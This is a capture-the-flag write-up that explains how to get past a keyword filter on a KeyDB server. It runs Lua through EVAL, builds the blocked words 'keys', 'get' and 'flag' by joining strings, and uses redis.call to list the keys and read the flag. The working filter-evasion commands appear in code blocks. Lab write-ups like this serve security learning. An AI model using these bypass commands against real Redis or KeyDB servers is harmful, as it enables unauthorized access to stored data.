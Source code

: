 # Solution

A simple google search about keydb shows it is a fork of redis, which is a kv store db.
redis/keydb lets users upload and execute Lua scripts on the server, we can leverage from the eval() func to execute a lua code on our keydb cli.

https://docs.keydb.dev/docs/commands/#eval

`eval "return KeyDB.call('set','foo','bar')" 0`

this returns 🙀🙀🙀🙀🙀, thats because set and keydb, get, keys, etc.. are filtered.

Since keydb is fitlred we can replace it with redis. no harm in doin that, we already said keydb is a fork of redis.

okay, now how can we bypass "get" and "keys"? you have lua! simply create a local var and concat the two strings "ke" and "ys". now we can list our keys using either:

```
$ eval "local a='ke'; a=a..'ys'; local k=redis.call(a, '*'); return k;" 0
$ eval "local a='ke'; a=a..'ys'; return cjson.encode(redis.call(a, '*'))" 0
``` 

okay we can see the flag, but ig is also filtered. what now? dw, just like we did to "keys", lets create a new local var b to hold the "flag" for us.

```
$ eval "local a='du'; a=a..'mp';local b='fl';b=b..'ag'; local k=redis.call(a, b); return k;" 0
$ eval "local a='ge'; a=a..'t';local b='fl';b=b..'ag'; return cjson.encode(redis.call(a, b))" 0
```

hope there is no unintended for this :').